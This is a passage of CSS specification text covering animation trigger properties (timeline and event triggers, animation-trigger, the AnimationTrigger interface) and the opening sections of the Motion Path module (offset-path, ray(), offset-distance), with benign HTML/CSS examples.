| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-active-range** |
| [Value:](#css-values-4:value-defs) | [ `<'timeline-trigger-active-range-start'>` `<'timeline-trigger-active-range-end'>`? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `timeline-trigger-active-range` property is a shorthand property that sets `timeline-trigger-active-range-start` and `timeline-trigger-active-range-end` together in a single declaration. It has the same syntax as the `animation-range` property.

The behavior of `timeline-trigger-active-range` is defined in [§ 3.1 Timeline Trigger Ranges](#animation-triggers-1:timeline-trigger-ranges).

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-active-range-start**, **timeline-trigger-active-range-end** |
| [Value:](#css-values-4:value-defs) | [ auto \| normal \| `<length-percentage>` \| `<timeline-range-name>` <length-percentage>? ]# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the specified named timeline range if one was specified, else to the entire timeline |
| [Computed value:](#css-cascade-6:computed) | list, each item either the keyword `normal` or a timeline range and progress percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `timeline-trigger-active-range-start` and `timeline-trigger-active-range-end` properties specify the timeline trigger’s associated active range. Values have the same meaning as `animation-range-start` and `animation-range-end`, with the following addition:

****auto****

: The start (for `timeline-trigger-active-range-start`) or end (for `timeline-trigger-active-range-end`) is equal to the start/end of the timeline trigger’s activation range.

#### 3.6. The `timeline-trigger-range` Shorthand {#animation-triggers-1:timeline-trigger-range-shorthand}

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger-range** |
| [Value:](#css-values-4:value-defs) | [ `<'timeline-trigger-activation-range'>` [ / `<'timeline-trigger-active-range'>` ]? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `timeline-trigger-range` property is a shorthand property that sets `timeline-trigger-activation-range` and `timeline-trigger-active-range` together in a single declaration.

#### 3.7. The `timeline-trigger` Shorthand {#animation-triggers-1:timeline-trigger-shorthand}

| Field | Value |
| --- | --- |
| Name: | **timeline-trigger** |
| [Value:](#css-values-4:value-defs) | none \| [ `<'timeline-trigger-name'>` `<'timeline-trigger-source'>` [ `<'timeline-trigger-range'>` ]? ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `timeline-trigger` shorthand property sets all of `timeline-trigger-name`, `timeline-trigger-source`, and optionally the `timeline-trigger-range` shorthand (which, in turn, sets `timeline-trigger-activation-range` and `timeline-trigger-active-range`) at once.

A value of **none** is equivalent to `none none normal`.

> **Note:** Due to significant potential ambiguities in the syntax (`timeline-trigger-name` vs timeline names in `timeline-trigger-source`; activation ranges vs active ranges), this shorthand’s values must be given in the specified order, rather than being settable in any order as is more common.

### 4. Event Triggers {#animation-triggers-1:event-triggers}

An **event trigger** is a trigger which is activated when certain `Event`s are fired at the element. It is defined on an element with the `event-trigger` shorthand property, or its longhands.

An event trigger can be defined as either stateless or stateful:

- If stateless, it has a single set of **enter events** that activate it.
- If stateful, it has two sets of events, its enter events and another set of **exit events**.

Event triggers are activated when one of its associated `Event`s are fired on the page with the trigger-defining element as its `target`. If it’s stateful, it has a binary trigger state associated with it, initially "inactive": while "inactive", it only activates when the defining element receives one of its enter events, performing an associated **enter action** and switching its trigger state to "active"; while "active", it only deactivates when it receives one of its exit events, performing an associated **exit action** and switching its trigger state back to "inactive".

A stateless event trigger must be given exactly one action for its trigger instance. A stateful one can be given one or two: the first is its enter action, and the second, if provided, is its exit action; if the second is not provided, the exit action is to do nothing.

> **Note:** A stateful and stateless event trigger act differently even if you only assign a single action; a single-action stateful event trigger will effectively "turn off" until it receives one of its exit events, ignoring any of the enter events after the first, while a stateless one will repeatedly trigger for every enter event.

An element can define multiple event triggers, using the same `Event`s or different ones. The set of `event-trigger` longhands form a coordinating list property group, with `event-trigger-name` as the coordinating list base property, and each item in the coordinated value list defining the properties of a single event trigger.

> **Issue:** The proposal I drew this text from specified that it only cares if the element is the *target* of the event. We probably want to allow for bubbling and/or capturing, possibly as an opt in/out.

#### 4.1. Naming the Trigger: the `event-trigger-name` property {#animation-triggers-1:event-trigger-name}

| Field | Value |
| --- | --- |
| Name: | **event-trigger-name** |
| [Value:](#css-values-4:value-defs) | none \| `<dashed-ident>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

If `none` is specified, the element does not define any event triggers.

If the same `<dashed-ident>` appears multiple times in the list, only the last one defines an event trigger; the preceding ones have no effect.

#### 4.2. Linking an Event: the `event-trigger-source` property {#animation-triggers-1:event-trigger-source}

| Field | Value |
| --- | --- |
| Name: | **event-trigger-source** |
| [Value:](#css-values-4:value-defs) | [ none \| `<event-function>`+ [ / <event-function>+ ]? ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `event-trigger-source` property specifies what event or events activate the event trigger. Its values are:

****none****

: The corresponding entry in the coordinated value list does not define a trigger.

****`<event-function>`+ [ / <event-function>+ ]?****

: Defines what event(s) the event trigger responds to.

  If a `/` is used in the value, the event trigger is stateful; the set of events before the `/` are the event trigger’s enter events, while those after the `/` are the exit events. (The same events can occur in both sets.)

  Otherwise, the event trigger is stateless, and the provided events are its enter events.

##### 4.2.1. Event Functions {#animation-triggers-1:event-functions}

```css
<event-function> = <click()> | <dblclick()> | <pointerenter()> | <pointerleave()> | <pointerup()>
  | <pointerdown()> | <keypress()> | <focusin()> | <focusout()> | <input()> | <change()>

click() = click()
dblclick() = dblclick()
pointerenter() = pointerenter()
pointerleave() = pointerleave()
pointerup() = pointerup()
pointerdown() = pointerdown()
focusin() = focusin()
focusout() = focusout()
input() = input()
change() = change()
```

Each of `click()`, `dblclick()`, `pointerenter()`, `pointerleave()`, `pointerup()`, `pointerdown()`, `focusin()`, `focusout()`, `input()`, and `change()` activates or deactivates the trigger when the element receives the corresponding `Event` type.

****keypress()** = keypress( <string>? )**

: Activates or deactivates the trigger on a `keypress` `KeyboardEvent`. The optional `<string>` argument specifies which `KeyboardEvent`.`key` values the trigger responds to, as a space-separated list. If the value is a single space (`" "`), it is interpreted as the "Space" key. If the value is an empty string (`""`), it is interpreted as missing.

#### 4.3. The `event-trigger` Shorthand {#animation-triggers-1:event-trigger-shorthand}

| Field | Value |
| --- | --- |
| Name: | **event-trigger** |
| [Value:](#css-values-4:value-defs) | none \| [ `<'event-trigger-name'>` `<'event-trigger-source'>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Animation type:](#web-animations-1:animation-type) | not animatable |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `event-trigger` shorthand property sets both `event-trigger-name` and `event-trigger-source` at once.

A value of **none** is equivalent to `none none`.

### 5. Triggered Animations {#animation-triggers-1:triggered-animations-concept}

While CSS animations are, by default, automatically run as soon as the appropriate `animation` values have been set on an element, the `animation-trigger` property allows the animation’s start to be delayed until an appropriate trigger occurs, and even paused, restarted, or reset by triggers (making it a triggered animation).

#### 5.1. The `animation-trigger` property {#animation-triggers-1:animation-trigger-shorthand}

| Field | Value |
| --- | --- |
| Name: | **animation-trigger** |
| [Value:](#css-values-4:value-defs) | [ none \| [ `<dashed-ident>` `<animation-action>`+ ]+ ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `animation-trigger` property specifies whether the animation is a triggered animation, and if it is, what trigger it responds to and what actions it takes in response. `animation-trigger` is a reset-only sub-property of the `animation` shorthand. Its values are:

****none****

: The corresponding animation is not a triggered animation.

****[ `<dashed-ident>` `<animation-action>`+ ]+****

: The corresponding animation is a triggered animation, responding to the triggers named by each `<dashed-ident>`, and responding by taking the action named by the corresponding `<animation-action>`. (See [§ 2.3 Trigger Name Scoping: the trigger-scope property](#animation-triggers-1:trigger-scope) for how <dashed-ident>s are resolved to triggers.)

  How many `<animation-action>`s a trigger accepts, and what exactly activates them, is determined by the type of the trigger. (Event triggers take one and possibly an optional second, depending on whether they’re stateless or stateful; timeline triggers take one and optionally a second.) Specifying the wrong number of actions (too many or too few) is valid syntactically, but causes the trigger to have no effect.

  If multiple triggers occur simultaneously, they take effect in the order specified.

  If the same `<dashed-ident>` is specified multiple times, all but the last have no effect.

The possible **`<animation-action>`** values, and what effect they have in each animation state:

| Keyword | Extra Effect | initial | playing | paused | finished |
| --- | --- | --- | --- | --- | --- |
| **none** | — | — | — | — | —​ |
| **play** | — | `play()` | — | `play()` | `play()` |
| **play-once** | — | `play()` | — | `play()` | —​ |
| **play-forwards** | set playback rate to positive | `play()` | — | `play()` | `play()` |
| **play-backwards** | set playback rate to negative | `play()` | — | `play()` | `play()` |
| **pause** | — | — | `pause()` | — | —​ |
| **reset** | set progress to 0 | — | `pause()` | `pause()` | `pause()` |
| **replay** | set progress to 0 | `play()` | — | `play()` | `play()` |

### 6. Programming interface {#animation-triggers-1:programming-interface}

#### 6.1. The `AnimationTrigger` interface< {#animation-triggers-1:the-animationtrigger-interface}

```webidl
[Exposed=Window]
interface AnimationTrigger {
  constructor(optional AnimationTriggerOptions options = {});
  attribute AnimationTimeline timeline;
  attribute AnimationTriggerBehavior behavior;
  attribute any activationRangeStart;
  attribute any activationRangeEnd;
  attribute any activeRangeStart;
  attribute any activeRangeEnd;
};
```

****`AnimationTrigger(options)`****

: Creates a new `AnimationTrigger` object using the following procedure:

  1. Create a new `AnimationTrigger` object, *trigger*.
  2. Set *trigger*.did trigger to false.
  3. Set *trigger*.state to pending.
  4. Set activation range of *trigger* using *options*.`activationRangeStart` and *options*.`activationRangeEnd`, following the same rules as the `KeyframeAnimationOptions` `rangeStart` and `rangeEnd` members respectively.
  5. Set active range of *trigger* using *options*.`activeRangeStart` and *options*.`activeRangeEnd`, following the same rules above for activation range, unless they are set to "auto", in which case they are set to their corresponding side of the activation range.
  6. Set *trigger*.`timeline` to *options*.`timeline`.

  ****`options`****

  : Configuration parameters for the newly-created trigger.

****`timeline`**,  of type AnimationTimeline**

: Returns the timeline for this trigger or `null` if this timeline is inactive.

****`activationRangeStart`**,  of type any**

: Returns the activation range’s start of this trigger.

****`activationRangeEnd`**,  of type any**

: Returns the activation range’s end of this trigger.

****`activeRangeStart`**,  of type any**

: Returns the active range’s start of this trigger.

****`activeRangeEnd`**,  of type any**

: Returns the active range’s end of this trigger.

#### 6.2. The `AnimationTriggerOptions` dictionary {#animation-triggers-1:the-animationtriggeroptions-dictionary}

```webidl
dictionary AnimationTriggerOptions {
  AnimationTimeline? timeline;
  AnimationTriggerBehavior? behavior = "once";
  (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) activationRangeStart = "normal";
  (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) activationRangeEnd = "normal";
  (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) activeRangeStart = "auto";
  (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) activeRangeEnd = "auto";
};
```

****`timeline`**,  of type AnimationTimeline, nullable**

: The timeline to which the trigger is associated. If not specified, the trigger is associated with default document timeline.

****`activationRangeStart`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"normal"`**

: The start of the trigger’s activation range. If not specified, the activation range’s start is set to "normal".

****`activationRangeEnd`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"normal"`**

: The end of the trigger’s activation range. If not specified, the activation range’s end is set to "normal".

****`activeRangeStart`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"auto"`**

: The start of the trigger’s active range. If not specified, the active range’s start is set to "auto".

****`activeRangeEnd`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"auto"`**

: The end of the trigger’s active range. If not specified, the active range’s end is set to "auto".

---

## Motion Path Module Level 1 {#motion-1}

- **Shortname:** `motion-1`
- **Editor's Draft:** [https://drafts.csswg.org/motion-1/](https://drafts.csswg.org/motion-1/)
- **Published TR:** [https://www.w3.org/TR/motion-1/](https://www.w3.org/TR/motion-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-04-28

### 1. Introduction {#motion-1:intro}

*This section is not normative.*

The `transform` property and its related properties allow a box to be arbitrarily repositioned (and rotated, scaled, etc) relative to its laid out position, without disrupting the layout of any other elements on the page. These positions can be animated or transitioned with CSS, but only in relatively simple ways: moving a box in a straight line from its starting position to its ending position.

This specification introduces the `offset` shorthand, and its suite of associated longhand properties, which define an **offset transform**: a transform which aligns a particular point on an element (`offset-anchor`) to an **offset position** on a *path* (`offset-path` and `offset-distance`), and optionally rotates it to follow the path direction (`offset-rotate`).

This allows a number of powerful new transform possibilities, such as positioning using polar coordinates (with the `ray()` function) rather than the standard rectangular coordinates used by the `translate()` function, or animating an element *along a defined path*, making it easy to define complex and beautiful 2d spatial transitions.

> **Example:** For example, the following picture shows a curving path (indicated with dotted lines), and an airplane graphic positioned at various points along the path. The plane faces in the direction of the path at each position on the path.
>
> 
>
> The plane is shown at different `offset-distance` values: `0%`, `50%`, and `100%`.

#### 1.1. Module interactions {#motion-1:placement}

This specification defines additional types of transforms (see [css-transforms-1]) that can be applied to an element.

As described in [CSS Transforms 2 § 6 Current Transformation Matrix](#css-transforms-2:ctm), the transforms defined by this document are layered after the individual transform properties (`translate`/`rotate`/`scale`, defined in [css-transforms-2]) and before the `transform` property (defined in [css-transforms-1]).

#### 1.2. Values {#motion-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21]. The `<basic-shape>` type is defined in CSS Shapes Module Level 1 [CSS-SHAPES]. The `<coord-box>` type is defined in CSS Box Model Module Level 3 [CSS-BOX-3]. Value types not defined in these specifications are defined in CSS Values and Units Module Level 3 [CSS3VAL].

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept CSS-wide keywords such as [initial](#css-cascade-5:valdef-all-initial) and [inherit](#css-cascade-5:valdef-all-inherit) as their property value [CSS3VAL]. For readability it has not been repeated explicitly.

### 2. Motion Paths {#motion-1:motion-paths-overview}

#### 2.1. Defining A Path: the `offset-path` property {#motion-1:offset-path-property}

| Field | Value |
| --- | --- |
| Name: | **offset-path** |
| [Value:](#css-values-4:value-defs) | none \| `<offset-path>` \|\| `<coord-box>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Specifies the **offset path**, a geometrical path the box gets positioned on.

```css
<offset-path> = <ray()> | <url> | <basic-shape>
```

Values have the following meanings:

****none****

: The element does not have an offset transform.

****`<offset-path>` || `<coord-box>`****

: The element has an offset transform, defined by some offset path. See [§ 2.7 Calculating The Offset Transform](#motion-1:transform) for details on how to calculate the offset transform.

  All the usual effects of having a `transform` apply (such as creating a stacking context, etc.) See [CSS Transforms 1 § 2 The Transform Rendering Model](#css-transforms-1:transform-rendering) for details.

  If `<offset-path>` is omitted, it defaults to `inset(0 round X)`, where *X* is the value of `border-radius` on the element that establishes the containing block for this element. If `<coord-box>` is omitted, it defaults to `border-box`.

  See the specific values (below) for the interpretation of each component.

****`<ray()>`****

: The offset path is a line extending from the origin at some angle. See [§ 2.1.1 The ray() Function](#motion-1:ray-function) for details.

  The `<coord-box>` provides the reference box for the ray.

****`<url>`****

: A URL reference to an SVG shape element. The offset path is the referenced element’s equivalent path. [SVG2]

  If the URL does not reference a shape element (because it references a different element, or resolves to a non-SVG document, or doesn’t resolve at all, etc) this behaves as `path("m 0 0")` (a `<basic-shape>`) instead.

  The `<coord-box>` defines the viewport and user coordinate system for the shape element, with the origin (the 0,0 point) at the top left corner, and units being `1px` in size.

****`<basic-shape>`****

: The offset path is the equivalent path of the `<basic-shape>` function.

  For all `<basic-shape>`s, if they accept an `at <position>` argument but that argument is omitted, and the element defines an offset starting position via `offset-position`, it uses the specified offset starting position for that argument. Otherwise it defaults as specified for each function.

  The `<coord-box>` provides the reference box for the `<basic-shape>`.

****`<coord-box>`****

: Defines the box that the `<offset-path>` sizes into.

  In CSS contexts, the boxes being referenced are from the element that establishes the containing block for this element.

  In SVG contexts, all values behave as `view-box`.

##### 2.1.1.  The `ray()` Function {#motion-1:ray-function}

The `ray()` function defines an offset path as a straight line emerging from a point at some defined angle:

```css
ray() = ray( <angle> && <ray-size>? && contain? && [at <position>]? )

<ray-size> = <radial-extent> | sides
```

Its arguments are:

****`<angle>`****

: The offset path is a single line segment that starts from the offset starting position and proceeds in the direction defined by the specified `<angle>`. (Its length is determined by the other arguments.) As with gradient functions, <angle> values are interpreted as bearing angles, with `0deg` pointing up and positive angles representing clockwise rotation.

****<ray-size>****

: Specifies the length of the offset path (the distance between the `offset-distance: 0%` and `offset-distance: 100%` points) relative to the containing box.

  If no `<ray-size>` is specified it defaults to `closest-side`.

  > **Note:** For `sides`, the distance depends on the `<angle>` specified; for all other values, the distance is constant regardless of the <angle>.

  Individual keywords are:

  ****closest-side****

  : The distance from the ray’s starting point to whichever side of the containing block is closest.

  ****closest-corner****

  : The distance from the ray’s starting point to whichever corner of the containing block is closest.

  ****farthest-side****

  : The distance from the ray’s starting point to whichever side of the containing block is farthest.

  ****farthest-corner****

  : The distance from the ray’s starting point to whichever corner of the containing block is farthest.

  ****sides****

  : The distance from the ray’s starting point to the point where the offset path intersects the containing block’s boundary.

    If the ray’s starting point is on the containing block’s boundary, or outside its bounds entirely, the distance is zero.

  > **Note:** For `closest-side` and `closest-corner`, if the ray’s starting point is *on* an edge/corner, that’s the closest one. (In other words, the distance is zero.)

  > **Note:** For `closest-side` and `farthest-side`, if the ray’s starting point is outside the containing block entirely, the edges of the containing block are considered to extend out to infinity.

****contain****

: The length of the offset path is reduced so that the element stays within the containing block even at `offset-distance: 100%`.

  Specifically, the path’s length is reduced by half the width or half the height of the element’s border box, whichever is larger, and floored at zero.

  > **Note:** This behavior is optimized for a particular case—​the element’s width and height are equal or nearly so; the element is either completely rounded by `border-radius` or the corners aren’t relevant to its appearance; the `ray()` uses `closest-side` positioning; and `offset-anchor` is set to `center`.
  >
  > Under these conditions, which are common for situations like positioning elements around the edge of a round clock face, this ensures that each element is positioned fairly snugly against the inner edge of the clock face at `offset-distance: 100%`.
  >
  > In other conditions this will act *similarly* but might not give quite as optimal a result.

****at `<position>`****

: Specifies the **origin** of the ray, where the ray’s line begins (the 0% position). It’s resolved by using the `<position>` to position a 0x0 object area within the box’s containing block.

  If omitted, it uses the offset starting position of the element, given by `offset-position`.

  If the element doesn’t have an offset starting position either, it behaves as `at center`.

  > **Note:** `ray()` is currently only usable as an offset path. If it ever gets extended to other uses, its usage of `offset-position` will be limited solely to when it’s an offset path, similar to other `<basic-shape>` functions.

> **Issue:** all of these examples need to be rewritten.

> **Example:** Here are some examples. The first example shows that some parts of boxes are outside of the offset path.
>
> ```
> <style>
>     body {
>         transform-style: preserve-3d;
>         width: 200px;
>         height: 200px;
>     }
>     .box {
>         width: 50px;
>         height: 50px;
>         offset-position: 50% 50%;
>         offset-distance: 100%;
>         offset-rotate: 0deg;
>     }
>     #redBox {
>         background-color: red;
>         offset-path: ray(45deg closest-side);
>     }
>     #blueBox {
>         background-color: blue;
>         offset-path: ray(180deg closest-side);
>     }
> </style>
> <body>
>     <div class="box" id="redBox"></div>
>     <div class="box" id="blueBox"></div>
> </body>
> ```
>
> 
>
> `offset-path` without `contain`
>
> In the second example, `contain` is given to the `offset-path` value of each box to avoid overflowing.
>
> ```
> <style>
>     body {
>         transform-style: preserve-3d;
>         width: 200px;
>         height: 200px;
>     }
>     .box {
>         width: 50px;
>         height: 50px;
>         offset-position: 50% 50%;
>         offset-distance: 100%;
>         offset-rotate: 0deg;
>     }
>     #redBox {
>         background-color: red;
>         offset-path: ray(45deg closest-side contain);
>     }
>     #blueBox {
>         background-color: blue;
>         offset-path: ray(180deg closest-side contain);
>     }
> </style>
> <body>
>     <div class="box" id="redBox"></div>
>     <div class="box" id="blueBox"></div>
> </body>
> ```
>
> 
>
> `offset-path` with `contain`
>
> In the third example, the path size is increased so that the box can be contained. The used offset distance is negative.
>
> ```
> <style>
>     body {
>         transform-style: preserve-3d;
>         width: 250px;
>         height: 250px;
>     }
>     .box {
>         width: 60%;
>         height: 10%;
>
>         offset-position: 20% 20%;
>         offset-distance: 0%;
>         offset-rotate: 0deg;
>         offset-anchor: 200% -300%;
>     }
>     #blueBox {
>         background-color: blue;
>         offset-path: ray(-90deg closest-side contain);
>     }
> </style>
> <body>
>     <div class="box" id="blueBox"></div>
> </body>
> ```
>
> 
>
> `offset-path` with path size increased
>
> In the fourth example, the initial position is outside the containing block.
>
> ```
> <style>
>     #container {
>         transform-style: preserve-3d;
>         width: 200px;
>         height: 200px;
>     }
>     .box {
>         width: 20%;
>         height: 20%;
>         offset-position: 140% 70%;
>         offset-distance: 100%;
>     }
>     #redBox {
>         background-color: red;
>         offset-path: ray(-90deg sides);
>     }
>     #blueBox {
>         background-color: blue;
>         offset-path: ray(180deg closest-side);
>     }
> </style>
> <div id="container">
>     <div class="box" id="redBox"></div>
>     <div class="box" id="blueBox"></div>
> </div>
> ```
>
> 
>
> Initial position outside the containing block

##### 2.1.2. Examples Of `<basic-shape>` Positioning {#motion-1:example-shape}

> **Example:** This example uses a circle with implicit center position.
>
> ```
> <style>
>     body {
>         width: 323px;
>         height: 131px;
>         margin: 0px;
>         border: 2px solid black;
>         padding: 8px;
>         transform-style: preserve-3d;
>     }
>     .item {
>         width:  90px;
>         height: 40px;
>         background-color: violet;
>     }
>     #middle {
>         offset-position: auto;
>         offset-path: circle(60%) margin-box;
>         offset-distance: 25%;
>         offset-anchor: left top;
>     }
> </style>
> <body>
>     <div class="item"></div>
>     <div class="item" id="middle"></div>
>     <div class="item"></div>
> </body>
> ```
>
> 
>
> The circle center is determined by normal flow.

##### 2.1.3. Examples of `<coord-box>` Positioning {#motion-1:example-coord}

> **Example:** This example shows how `<coord-box>` offset path works in combination with `border-radius`.
>
> ```
> <style>
>     body {
>         width: 500px;
>         height: 300px;
>         border-radius: 80px;
>         border: dashed aqua;
>         margin: 0;
>     }
>     #blueBox {
>         width: 40px;
>         height: 20px;
>         background-color: blue;
>         offset-path: margin-box;
>     }
> </style>
> <body>
>     <div id="blueBox"></div>
> </body>
> ```
>
> 
>
> The initial position is the left end of the top horizontal line.

#### 2.2. Position On The Path: the `offset-distance` property {#motion-1:offset-distance-property}

| Field | Value |
| --- | --- |
| Name: | **offset-distance** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the offset path length |
| [Computed value:](#css-cascade-6:computed) | a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Specifies where along the offset path the offset position is.

**`<length-percentage>`**

: The offset position is the point that is the specified distance along the element’s offset path. See [§ 2.2.1 Calculating the computed distance along a path](#motion-1:path-distance) for details about how to calculate distances along a path.

  Percentages are relative to the total length of the offset path.

> **Note:** By animating the `offset-distance`, an element can easily trace out a complex path.

If the element does not have an offset path, this property does nothing.

##### 2.2.1. Calculating the computed distance along a path {#motion-1:path-distance}

Processing the distance along an offset path operates differently depending upon the nature of the offset path:

- References to `<angle>` offset paths with contain are unclosed intervals.
- References to `<angle>` offset paths without contain are unbounded rays.
- All basic CSS shapes are closed loops.
- Offset paths (including references to SVG Paths) are closed loops only if the final command in the path list is a closepath command ("z" or "Z"), otherwise they are unclosed intervals.
- References to SVG circles, ellipses, images, polygons and rects are closed loops.
- References to SVG lines and polylines are unclosed intervals.

To determine the **used offset distance** for a given offset path and **offset distance**:

1. Let the **total length** be the total length of offset path with all sub-paths.
2. Convert offset distance to pixels, with 100% being converted to total length.
3. **If offset path is an unbounded ray:**

   : Let used offset distance be equal to offset distance.

   **Otherwise if offset path is an `<angle>` path with contain:**

   : Let used offset distance be equal to offset distance, clamped so that the box lies entirely within the path.

   **If offset path is any other unclosed interval:**

   : Let used offset distance be equal to offset distance clamped by 0 and the total length of the path.

   **Otherwise offset path is a closed loop:**

   : Let used offset distance be equal to offset distance modulo the total length of the path. If the total length of the path is 0, used offset distance is also 0.

  > **Note:** “Modulo” here uses the traditional mathematical definition, where the output is always non-negative.

> **Example:** This example shows boxes placed along an unclosed interval.
>
> ```
> <style>
>     .item {
>         width: 100px;
>         height: 40px;
>         offset-position: 0% 0%;
>         offset-path: path('m 0 0 h 200 v 150');
>     }
>     #box1 {
>         background-color: red;
>         offset-distance: -280%;
>     }
>     #box2 {
>         background-color: green;
>         offset-distance: 190%;
>     }
> </style>
> <body>
>     <div class="item" id="box1"></div>
>     <div class="item" id="box2"></div>
> </body>
> ```
>
> 
>
> An example of boxes placed along an unclosed interval

> **Example:** This example shows boxes placed along a closed interval.
>
> ```
> <style>
>     .item {
>         width: 100px;
>         height: 40px;
>         offset-position: 0% 0%;
>         offset-path: path('m 0 0 h 200 v 150 z');
>     }
>     #box1 {
>         background-color: red;
>         offset-distance: -280%;
>     }
>     #box2 {
>         background-color: green;
>         offset-distance: 190%;
>     }
> </style>
> <body>
>     <div class="item" id="box1"></div>
>     <div class="item" id="box2"></div>
> </body>
> ```
>
> 
>
> An example of boxes placed along a closed interval

> **Example:** This example shows a way to align boxes within the polar coordinate system using `offset-path`, `offset-distance`.
>
> ```
> <style>
>     body {
>         transform-style: preserve-3d;
>         width: 300px;
>         height: 300px;
>         border: dashed gray;
>         border-radius: 50%;
>     }
>     .circleBox {
>         position: absolute;
>         left: 50%;
>         top: 50%;
>         width: 40px;
>         height: 40px;
>         background-color: red;
>         border-radius: 50%;
>     }
>     #circle1 {
>         offset-path: ray(0deg farthest-side);
>         offset-distance: 50%;
>     }
>     #circle2 {
>         offset-path: ray(90deg farthest-side);
>         offset-distance: 20%;
>     }
>     #circle3 {
>         offset-path: ray(225deg farthest-side);
>         offset-distance: 100%;
>     }
> </style>
> <body>
>     <div class="circleBox" id="circle1"></div>
>     <div class="circleBox" id="circle2"></div>
>     <div class="circleBox" id="circle3"></div>
> </body>
> ```
>
> 
>
> An example of positioning box in polar coordinates

#### 2.3. Starting Point Of The Path: the `offset-position` property {#motion-1:offset-position-property}

| Field | Value |
| --- | --- |
| Name: | **offset-position** |
| [Value:](#css-values-4:value-defs) | normal \| auto \| `<position>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Refer to the size of containing block |
| [Computed value:](#css-cascade-6:computed) | The `normal` or `auto` keywords, or a computed `<position>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Specifies the **offset starting position** that is used by the `<offset-path>` functions if they don’t specify their own starting position.

Values are defined as follows:

****normal****

